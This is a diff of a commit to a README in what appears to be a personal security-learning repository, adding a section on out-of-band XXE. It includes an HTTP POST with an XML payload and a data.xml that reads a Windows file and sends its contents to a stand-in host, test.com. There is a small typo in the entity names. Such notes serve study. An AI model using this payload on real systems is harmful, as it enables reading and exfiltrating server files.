

Before and after one commit to anilarelli/Learning, a Markdown page: README.md, the part around one of its changes. Rendered like a GitHub page; blank space fills up the shorter version.

````diff
--- a/README.md
+++ b/README.md
@@ -424,3 +500,24 @@ For example, an application might allow users to upload images, and process or v
 
 
 OUT OF BAND XXE
+
+```python
+
+                                POST /action HTTP/1.0
+                                Content-Type: text/xml
+                                Content-Length: 52
+
+                                 <?xml version="1.0" encoding="UTF-8"?>
+				 <foo>bar</foo>
+     				<username>test</username>
+	 			<password>test</password>
+     				<XMLdata><![CDATA[<!DOCTYPE r [ <!ENTITY % aplha SYSTEM "http://test.com/data.xml" > %alpha %bravo; %charlie;]><r>1</r>]]></XMLdata>
+```
+
+
+* data.XML
+```python
+
+		<!ENTITY % charlie SYSTEM "file:///c:/windows/win.ini">
+		<!ENTITY % bravo "<!ENTITY &#X25; delta SYSTEM 'http://test.com/xxe?%charlie;'>">
+```
````
Also changed, not shown: other parts of README.md (+76 -0 lines).
